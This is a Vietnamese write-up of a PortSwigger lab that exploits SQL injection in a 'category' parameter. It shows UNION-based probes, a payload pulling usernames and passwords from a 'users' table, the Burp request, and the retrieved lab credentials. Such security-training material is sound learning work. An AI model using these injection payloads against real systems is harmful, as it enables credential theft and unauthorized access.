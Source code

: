 # Write-up: SQL injection UNION attack, retrieving data from other tables

### Tổng quan
Ghi lại quá trình khai thác SQLi để lấy thông tin trong DB có tên bảng : `users`, với tên cột: `username` và `password`

### Mục tiêu
Lấy được thông tin tài khoản `administrator` và login vào hệ thống.

### Công cụ sử dụng
- BurpSuite Community
- Firefox Browser

### Các bước thực hiện
1. **Thu thập thông tin (Recon)**
- Kiểm tra tham số `category` trong URL (`filter?category=Gifts`) để kích hoạt lỗi SQL:
  - **Kết quả**:xuất hiện lỗi SQL, xác nhận lỗ hổng
    ![lỗi](./images/error.png)

- Xác định số cột
    ```
    'UNION SELECT NULL,NULL,NULL--
    ```
    - **Kết quả**: xác nhận có 2 cột
        ![cột](./images/column.png)

- Xác định kiểu dữ liệu trả về mỗi cột
    ```
    'UNION SELECT 'a','a'--
    ```
    - **Kết quả**: xác nhận kiểu dữ liệu 2 cột là string
        ![string](./images/string.png)


2. **Tạo Payload**

- Tạo payload kiểu tấn công UNION lấy dữ liệu user trong bảng `users`
    ```
    'UNION SELECT username,password FROM users--
    ```

3. **Khai thác(Exploitation)**
- Gửi payload qua Burp Repeater
    ```
    GET /filter?category=Gifts'UNION+SELECT+username,password+FROM+users-- HTTP/2
    ```
    - **Kết quả**: lấy được dữ liệu các user
        ![data](./images/data.png)
    `administrator`:`ho7ptwoc3mzuyy8ycdzp`
    `wiener`:`olp8fd5ota5fqiqssgld`
    `carlos`:`gbprc9z3xaivmodk6948`

- Login bằng tài khoản `administrator` và hoành thành bài lab
    ![login](./images/login.png)

### Bài học rút ra
- Sử dụng SQLi để lấy thông tin trong DB

### Tài liệu tham khảo
- PortSwigger: SQL Injection cheat sheet

### Kết luận
Lab này giúp tôi hoàn thiện kỹ năng SQL injection và sử dụng Burp Suite. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger 

*Viết bởi Toàn Lương, Tháng 5/2025*.